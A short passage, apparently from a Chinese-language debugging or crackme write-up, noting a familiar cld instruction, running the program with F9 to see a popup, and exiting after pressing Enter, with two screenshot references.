

熟悉的cld

F9，看到了弹窗



回车后就成功退出了


